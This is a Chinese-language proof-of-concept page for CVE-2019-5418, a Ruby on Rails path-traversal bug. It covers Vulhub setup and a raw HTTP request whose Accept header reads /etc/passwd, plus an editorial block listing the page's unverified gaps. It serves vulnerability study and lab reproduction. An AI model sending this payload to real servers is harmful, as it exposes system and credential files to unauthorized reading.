


# Ruby On Rails 路径穿越与任意文件读取漏洞CVE-2019-5418

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：应用使用受影响render file路径，Accept可控，进程可读目标文件；实验5.2.2
- 证据范围：接口是Vulhub测试控制器而非Rails通用/robots漏洞，需保留业务调用前提

### 本次正文校订

- 按实际内容修正 2 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 缺完整受影响/修复Rails分支
- Rail On Rails拼写错误
- 应主要归框架/Rails，不把服务器软件Ruby笼统当产品

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

在控制器中通过`render file`形式来渲染应用之外的视图，且会根据用户传入的Accept头来确定文件具体位置。我们通过传入`Accept: ../../../../../../../../etc/passwd{{`头来构成构造路径穿越漏洞，读取任意文件。

参考链接：

- https://groups.google.com/forum/#!topic/rubyonrails-security/pFRKI96Sm8Q
- https://xz.aliyun.com/t/4448

## 环境搭建

Vulhub执行如下命令编译及启动Rail On Rails 5.2.2：

```shell
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:3000`即可看到Ruby on Rails的欢迎页面。



## 漏洞复现

访问`http://your-ip:3000/robots`可见，正常的robots.txt文件被读取出来。

利用漏洞，发送如下数据包，读取`/etc/passwd`：

```http
GET /robots HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: ../../../../../../../../etc/passwd{{
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

成功读取`/etc/passwd`：




---

> 来源：Threekiii/Awesome-POC
